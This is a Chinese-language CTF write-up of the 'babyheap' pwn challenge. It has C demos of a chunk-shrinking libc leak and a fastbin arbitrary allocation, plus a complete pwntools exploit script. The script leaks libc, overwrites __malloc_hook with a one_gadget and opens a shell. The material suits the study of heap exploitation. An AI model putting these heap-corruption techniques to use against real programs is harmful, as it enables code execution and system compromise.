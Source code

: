 ```yaml
---

layout: post

title: 'babyheap学习总结'

date: '2018-01-17'

header-img: "img/home-bg.jpg"

tags:
     - pwn 堆利用  
author: 'De4dCr0w'

---
```


<!-- more -->

### 漏洞原型

#### （1）通过shrink the chunk来leak libc地址

shrink the chunk demo 代码：



```
#include <stdlib.h>
#include <stdio.h>

int main()
{
    int i;
    char data[100];
    memset(data,'\x00',sizeof(data));
    char *A = malloc(0x30);
    char *B = malloc(0x160);
    char *C = malloc(0xf0);

    free(B);
    free(A);

    malloc(0x38);

    while(i < 0x38)
        data[i++] = 'a';
    data[i] = '\x00';

    memcpy(A,data,0x39);

    malloc(0x80);

    malloc(0x30);

    free(B);

    free(C);

    char *D = malloc(0x260);

    printf("info_leak_libc:%p\n",*(unsigned long *)(D+0x90));

    return 0;
}

```

泄露信息libc 地址的对布局过程：

![image](../image/leakinfo.jpg)

泄露出来的只是main_arena+x的地址，而main_arena的地址位于__malloc_hook+0x10的地方，所以  
main_arena_offset = __malloc_hook_offset+0x10  
x = leak_address - (__malloc_hook_address+0x10)
libc_base_address = leak_address - (x + main_arena_offset)

最后只要求出泄露出来的地址和libc基地址的偏移就行：  
offset = leak_address - __malloc_hook_address + __malloc_hook_offset

计算 main_arena的偏移有个工具可以使用：  https://github.com/Escapingbug/get_main_arena

#### （2）通过fastbin attack修改程序流程

atbitrary alloc demo代码：

```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1b05;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```

### exp代码

```
from pwn import *

#context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 'debug'

def Allocate(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size:")
    p.sendline(str(size))
#    index = p.recvuntil("1. Allocate").split(' ')[3].split('\n')[0]
    index =1
    return index

def Fill(index,size,content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Size:")
    p.sendline(str(size))
    p.recvuntil("Content:")
    p.sendline(content)



def Free(index):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index:")
    p.sendline(str(index))

def Dump(index):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Content: \n")
    data = p.recvline()
    return data

def Exit():
    pass


if __name__=='__main__':

    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")}

    p = process("./babyheap",env=env)
#    libc = ELF("./libc.so.6.my")
    libc = ELF("./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")
    libc.symbols['one_gadget'] = 0x41374
    libc_offset = 0x3a5678
 
    index0 = Allocate(16)
    index1 = Allocate(480)
    index2 = Allocate(512)
    index3 = Allocate(512)

    #gdb.attach(p)
    Free(1)

    payload = 'a'*24 + '\x30'
    Fill(0,25,payload)

    index4 = Allocate(128) #index:1
    index5 = Allocate(96) #index:4

    Free(1)
    Free(2)

    Allocate(128) #index:1
    data = Dump(4)
    data = u64(data[:8])
    print hex(data)
    libc.address = data - libc_offset
	
    payload = 'b'*0x80+p64(0x90)+p64(0x70)
    #payload = flat('b'*0x80,0x90,0x70)
    Fill(1,len(payload),payload)
    Free(4) #释放了0x70的堆块
     
  
    payload = 'c'*0x80+p64(0x90)+p64(0x70)
    payload += p64(libc.symbols['__malloc_hook']-0x23)

    #错位构造出一个0x000000000000007f

    Fill(1,len(payload),payload); #修改0x70的堆块的fd值
    Allocate(96) #index:2 重新申请到0x70的堆块，此时calloc会擦除fd和bk的数据，但是之前的fd会被保存在main_arena上
    Allocate(96) #index:4 根据伪造的fd地址，申请到__malloc_hook-0x23的位置

    gdb.attach(p)

    payload = 'd'*19 + p64(libc.symbols['one_gadget'])#覆盖__malloc_hook为/bin/sh的地址，0x23 -0x10（header）= 0x13 = 19,所以覆盖19个'd'后，再覆盖就是__malloc_hook的地址了。
    Fill(4,len(payload),payload)

    Allocate(96)
    p.interactive()

```

最后更改malloc_hook最后调用/bin/sh了，这里还有一个工具，用来找libc里的magic gadget，也就是将控制流放到这就能调用/bin/sh而不用考虑参数的问题的：  
https://github.com/david942j/one_gadget/tree/master/spec

### 参考链接

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack.html

https://poning.me/2017/03/24/baby-heap-2017/

https://github.com/david942j/one_gadget
